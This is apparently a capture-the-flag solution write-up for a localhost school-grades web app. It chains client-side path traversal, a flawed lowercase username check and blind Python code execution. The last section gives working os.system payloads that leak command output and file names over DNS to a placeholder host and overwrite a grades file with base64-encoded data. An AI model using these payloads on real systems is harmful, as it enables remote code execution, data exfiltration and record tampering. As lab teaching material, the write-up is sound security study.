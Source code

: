 # SOLUTION:

By viewing the source code of / you find a path called /routes where you can see all paths. If you test each of them you find that /waitlist as an access control issue.

On that page you can see how the links to accept or deny users are made. Since you know that the teacher denies user every minute you have to find a way to force her into accepting one of you user. Your username is direclty appended to the path without verification because of this you can exploit a Client Side Path Traversal by creating a user named foo/../../accept/attacker. So when the teacher clicks the link : http://localhost:8081/deny/foo/../../accept/attacker it results in http://localhost:8081/accept/attacker which gives the attacker access to the class.

The next bug wasn't really realistic but it was to test your attention to details. Once you gain access to the class you see the name of all users in the class which contains the user Teacher however when you try to access a page that only the teacher as access you get this error message : "
As user : {username} you cant approve or deny users only user : "teacher" does."

You can notice that your username if it had capital letters is lower cased same thing for the user Teacher. What you have to understand here is that the username validation is flawed since it lowers the characters before checking if they match with teacher. This means that you can re-exploit the CSPT to validate the user TEACHER for example.

Now that you are logged in and have gain access to the class as user TEACHER you also gain access to the grade page. Where there is a python calculator...

This python calculator contains a python code execution vulnerability sadly you will have to use OOB detection to exploit and confirm this vulnerability since its blind.

So here is how I would've exploited this :

First confirm the vuln with the payload :

```
__import__('os').system('host $(whoami).yoursite.com')
```

Then list files :

```
__import__('os').system('for i in $(ls) ; do host \"$i.yoursite.com\"; done')
```

Then list data directory :

```
__import__('os').system('for i in $(ls data) ; do host \"$i.yoursite.com\"; done')
```


Them edit gardes.json so Vincent's grade is over 90% :

```
__import__('os').system('echo "ewogICAgIlZpbmNlbnQiOiAyNy44NywKICAgICJDYXJsb3MiOiA4Ny42NywKICAgICJXaWVuZXIiOiA2MS44NiwKICAgICJuZXJkIjogMTAwLjAxCn0=" | base64 -d > data/grades.json')
```
